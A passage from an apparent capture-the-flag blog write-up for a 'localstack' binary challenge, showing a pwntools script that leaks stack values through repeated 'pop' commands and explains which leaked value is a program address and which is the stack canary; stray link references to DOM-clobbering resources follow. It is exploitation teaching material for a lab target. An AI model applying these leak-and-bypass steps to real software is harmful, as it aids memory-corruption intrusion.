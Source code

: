 ```python
from pwn import *

chall = "./localstack"

p = process(chall)

p.recvline().decode()

n = 29
for i in range(n):
    p.recvuntil(b">> ")
    p.sendline(b"pop")
    r = p.recvline().decode().strip().split()
    v = int(r[1])
    print(hex(v))
```

![output](./img/local/local2.png "output values before stack")

We can see the third output value `0x5584cde279f`, this is some address value in
our program. We will save this value to do some relative address manipulation
later. Also, we can see that the last output value `0x3f9156898fd5a700` is the
canary.


[prevwriteup]: /blog/l3akctf-2024-writeup/
[tscctf]: https://ctftime.org/event/2598
[ctftag]: /blog/tag/ctf/
[domclob]: https://portswigger.net/web-security/dom-based/dom-clobbering
[clobpayload]: https://domclob.xyz/domc_markups/list
[webhooksite]: https://webhook.site
[beautiwriteup]: https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/crocodilu